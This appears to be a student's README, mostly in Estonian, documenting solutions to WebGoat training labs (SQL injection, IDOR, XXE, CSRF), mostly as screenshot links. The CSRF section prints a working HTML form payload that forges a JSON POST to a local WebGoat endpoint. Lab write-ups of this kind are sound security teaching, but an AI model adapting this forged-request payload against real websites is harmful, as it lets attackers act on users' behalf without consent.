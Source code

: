 1-3 Client side) kolm tükki ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/4e4f8a9b-e16b-4b7b-bed6-3f024e56f1d8)<br>
4 SQL Injection intro) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/dd4e4cf4-5b91-4cd8-a4ce-5007e6e60059)<br>
5 Crypto basics) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/88f2f3a5-65fe-4830-a3fe-878531c3503b)<br>
6 Insecure direct object references) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/267f158e-ffb9-4390-ad09-4f357c005a13)<br>
7 XXE) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/9f4fc329-69cd-4a38-bd09-780c72250378)<br>
8 CSRF) Kuna webwolfi .html faili üleslaadimisega on mingi probleem, millele internetist lahendust ei leidnud, siis ei saa seda lõpuni teha, aga postitan lahenduskäigu, mis peaks töötama.
HTML kood, mis failis olema peaks:
127.0.0.1 on minu kali IP.
```html
<form enctype="text/plain" method="POST" action="http:/127.0.0.1:8080/WebGoat/csrf/feedback/message">
	<input type="hidden" name='{"name": "WebGoat", "email": "webgoat@webgoat.org", "content": "WebGoat is the best!!", "ignoreme":"' value='sdfsdfdf"}'>
	<button>submit</button>
</form>
```
Pärast sellel lehel nupu vajutamist ja paketti kinni püüdmist peaks vastus olema loetav zapis inimloetaval kujul.
![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/95c22a2f-05fd-4956-944a-8c154ecb82d6)


